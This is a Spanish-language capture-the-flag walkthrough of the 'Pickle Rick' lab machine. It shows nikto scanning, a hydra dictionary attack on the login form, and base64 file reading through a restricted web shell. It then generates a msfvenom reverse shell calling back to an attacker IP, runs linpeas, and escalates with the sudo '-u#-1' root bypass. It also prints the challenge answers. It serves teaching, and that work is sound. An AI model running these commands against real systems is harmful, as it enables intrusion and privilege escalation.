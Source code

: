 # Pickle Rick
Este CTF para Beginners nos pide encontrar 3 ingredientes de la pocion para volver a la normalidad a Rick

## Rick user
Si inspeccionamos la pagina nos encontraremos con el usuario de rick comentado. Esta info nos es util para ataques por diccionario. Pero veamos que mas pillamos.

```
<!--
    Note to self, remember username!
    Username: R1ckRul3s
-->
```

## Escaneando la maquina
La verdad es que si escaneamos no nos dice mucho, un puerto 22 y un 80.

El puerto 22 tiene deshabilitado el login por contraseña, asiq ue mientras no tengamos la llave, ni soñar.

## Escaneando la pagina
Vamos a usar nikto para listar posibles archivos de interés.

```
nikto -host 10.10.229.151
```
```
- Nikto v2.1.5
---------------------------------------------------------------------------
+ Target IP:          10.10.229.151
+ Target Hostname:    ip-10-10-229-151.eu-west-1.compute.internal
+ Target Port:        80
+ Start Time:         2023-09-05 00:36:09 (GMT1)
---------------------------------------------------------------------------
+ Server: Apache/2.4.18 (Ubuntu)
+ Server leaks inodes via ETags, header found with file /, fields: 0x426 0x5818ccf125686 
+ The anti-clickjacking X-Frame-Options header is not present.
+ No CGI Directories found (use '-C all' to force check all possible dirs)
+ "robots.txt" retrieved but it does not contain any 'disallow' entries (which is odd).
+ Allowed HTTP Methods: GET, HEAD, POST, OPTIONS 
+ Cookie PHPSESSID created without the httponly flag
+ OSVDB-3233: /icons/README: Apache default file found.
+ /login.php: Admin login page/section found.
+ 6544 items checked: 0 error(s) and 7 item(s) reported on remote host
+ End Time:           2023-09-05 00:36:17 (GMT1) (8 seconds)
---------------------------------------------------------------------------
+ 1 host(s) tested
```

Algunas cosas interesantes es que entontramos un login.php y un archivo robots.txt

login.php nos lleva  aun login, ya tenemos el username por lo que nos falta encontrar la contraseña.

Podemos dejar un ataque por diccionario mientras vemos otras opciones.

```
hydra -l R1ckRul3s -P /usr/share/wordlists/rockyou.txt 10.10.229.151 http-post-form "/login.php:username=^USER^&password=^PASS^&sub=Login:Invalid username or password." -V -F
```

En el robots.txt encontramos algo interesante, pero típico de Rick.

```
Wubbalubbadubdub
```

Suena como a Rick, usemoslo como contraseña.

![Alt text](image.png)

Entramos :D.

Tenemos una shell al parecer que nos permite jugar, veamos que hay:

![Alt text](image-1.png)

Y si buscamos el archivo Sup3rS3cretPickl3Ingred.txt

1. What is the first ingredient that Rick needs? **mr. meeseek hair**

Tambien hay otro archivo que dice clue.txt

Al revisarlo nos dice que revisemos el filesystem.

Hice varias cosas, pero al final di con lo siguiente:

Con find busquemos algun archivo

cat no funciona porque está deshabilitado, por lo que tendremos que "leerlo" de alguna manera. Usemos base64 para aquello:

```base64 ../../../passwd | base64 --decode```

![Alt text](image-2.png)


2. What is the second ingredient in Rick’s potion?: **1 jerry tear**

Nos faltaria el último ingrediente y obvio, tenemos que escalar a root.

Por un lado generamos una shell reversa

```
msfvenom -p linux/x86/shell/reverse_tcp LHOST=10.8.153.49 LPORT=4444 -f elf > shell-x86.elf
[-] No platform was selected, choosing Msf::Module::Platform::Linux from the payload
[-] No arch selected, selecting arch: x86 from the payload
No encoder specified, outputting raw payload
Payload size: 123 bytes
Final size of elf file: 207 bytes
 
```

descargamos linpeas.sh
```
wget https://github.com/carlospolop/PEASS-ng/releases/latest/download/linpeas.sh 
```

levantamos servidor http local
```
python -m http.server 80                                                        
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

En el prompt descargamos el shell creado anteriormente y le damos permisos de ejecucion

![Alt text](image-5.png)

![Alt text](image-6.png)

En el prompt descargamos linepeas y le damos permisos de ejecucion

![Alt text](image-3.png)

![Alt text](image-4.png)

En nuestra maquina atacante levantamos metasploit y generamos el listener

```
use multi/handler
```

```
use payload linux/x86/shell/reverse_tcp
use 0
set lhost 10.8.153.49
exploit
```

En el command panel ejecutamos el shell reverso

![Alt text](image-7.png)

Eso levantara nuestra shell en metasploit
```
msf6 payload(linux/x86/shell/reverse_tcp) > 
[*] Started reverse TCP handler on 10.8.153.49:4444 
[*] Sending stage (36 bytes) to 10.10.194.228
[*] Command shell session 1 opened (10.8.153.49:4444 -> 10.10.194.228:55854) at 2023-09-05 15:50:54 -0400

```

ya adentro, ejecutramos linepeas para que busque vulnerabilidades y nosotros a tomar cafecito.

```
/tmp/linepeas.sh
```

Dentro de lo que nos avisa, es de un exploit que afecta a la version de sudo que afecta las versiones menores a 1.28
```
╔══════════╣ Sudo version
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#sudo-version                                                                                                                                                             
Sudo version 1.8.16 
```

Exploiting

```
sudo -u#-1 /bin/bash
```
```
whoami
root
```
```
ls /root
3rd.txt
snap
```
```
cat /root/3rd.txt
3rd ingredients: fleeb juice
```
3. What is the last and final ingredient?: ***fleeb juice***

Y con eso estamos
P.D.: Hice varias cosas manuales antes de ejecutar linpeas, pero es increible el tiempo que ahorra. :D.